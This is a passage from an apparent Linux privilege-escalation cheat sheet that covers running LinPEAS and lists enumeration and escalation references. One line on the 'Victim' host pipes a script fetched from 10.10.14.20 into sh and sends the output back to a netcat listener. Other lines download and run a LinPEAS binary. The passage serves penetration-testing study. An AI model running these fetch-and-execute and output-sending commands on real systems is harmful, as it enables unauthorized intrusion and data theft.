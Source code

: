 ```bash
# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victi

# Output to file
./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
less -r /dev/shm/linpeas.txt #Read with colors

# Use a linpeas binary
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```

##### [Linux Exploit Suggester](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester)
```bash
perl Linux_Exploit_Suggester.pl -k <Kernel Version>
```

##### [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

### System Information References
[Local Linux Enumeration & Privilege Escalation Cheatsheet](https://web.archive.org/web/20200218150604/https:/www.rebootuser.com/?p=1623)

[LinEnum](https://github.com/rebootuser/LinEnum)

[LinuxPrivChecker](https://github.com/sleventyeleven/linuxprivchecker)

[Unix-privesc-check](https://pentestmonkey.net/tools/audit/unix-privesc-check)

[mimipenguin](https://github.com/huntergregal/mimipenguin)

[Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

[Unix-PrivEsc](https://github.com/FuzzySecurity/Unix-PrivEsc)

[PEASS (LinPEAS / WinPEAS)](https://github.com/carlospolop/PEASS-ng)

[Linux Exploit Suggester](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester)

[SUID](https://en.wikipedia.org/wiki/Setuid)

[EUID](https://en.wikipedia.org/wiki/User_identifier#Effective_user_ID)

[A description of RPATH $ORIGIN LD_LIBRARY_PATH and portable linux binaries](https://enchildfone.wordpress.com/2010/03/23/a-description-of-rpath-origin-ld_library_path-and-portable-linux-binaries/)

[The GNU C library dynamic linker expands $ORIGIN in setuid library search path](https://seclists.org/fulldisclosure/2010/Oct/257)

[Sudo](https://en.wikipedia.org/wiki/Sudo)

[dockerevil](https://github.com/pyperanger/dockerevil)
